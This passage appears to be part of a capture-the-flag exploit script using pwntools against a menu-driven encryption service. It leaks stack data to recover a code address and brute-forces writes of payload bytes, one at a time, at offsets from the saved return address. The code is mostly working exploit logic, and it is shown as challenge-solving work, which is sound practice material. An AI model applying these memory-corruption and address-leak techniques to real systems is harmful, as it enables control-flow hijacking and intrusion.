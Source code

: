 ```

def set_key(key):
	p.send("1\n")
	p.recvuntil("Enter key:\n")
	p.send(key)
	p.recvuntil(">>> ")

def set_message(message):
	p.send("2\n")
	p.recvuntil("encrypt:\n")
	p.send(message)
	p.recvuntil(">>> ")

def prepare_to_read_past_message(message):
	p.send("2\n")
	p.recvuntil("encrypt:\n")
	p.send(message)

def get_original_random_number_lowest_byte():
	p.recvuntil("\n")
	random_bytes = p.recv(0x4)
	#print("random bytes: " + hex(u32(random_bytes)) + "\n")
	lowest_byte = u32(random_bytes) & 0xff
	original_random_number_lowest_byte = lowest_byte ^ 0x41
	#print("Original random number lowest byte is " + hex(original_random_number_lowest_byte) + "\n")
	#print("Original random number is " + hex(u32(random_bytes) ^ 0x41414141) + "\n")
	return original_random_number_lowest_byte

def write_a_byte(byte, desired_offset_from_return_address):
	done = False
	write_counter = 0
	while not done:
		print("In write_a_byte: pass " + str(write_counter) + ".\n")
		key_length = desired_offset_from_return_address + 0x14
		print("in write_a_byte: using key length " + str(key_length) + ".\n")
		set_key("A"*key_length+"\x00")
		prepare_to_read_past_message("B"*256)
		lowest_byte = get_original_random_number_lowest_byte()
		if lowest_byte == byte:
			print("In write_a_byte: pass " + str(write_counter) + ".\n")
			print("successfully wrote byte " + hex(byte) + " to desired offset: " + str(desired_offset_from_return_address) +".\n")
			done = True
		write_counter += 1

def write_payload(payload, start_offset = 0):
	current_offset_from_return_address = start_offset
	for byte in payload:
		write_a_byte(ord(byte),current_offset_from_return_address)
		current_offset_from_return_address += 1


# 1. Write a function that reads info from off the stack and determines
#    the code base if I can, using the available return addresses.
#    (Don't need a function since I run this once)
set_key("A"*0x108)
prepare_to_read_past_message("B"*256)

p.recvuntil("\x03"*0x100)
p.recv(12)
code_addr_string = p.recv(8)
print("code_addr = " + hex(u64(code_addr_string)) + "\n")
```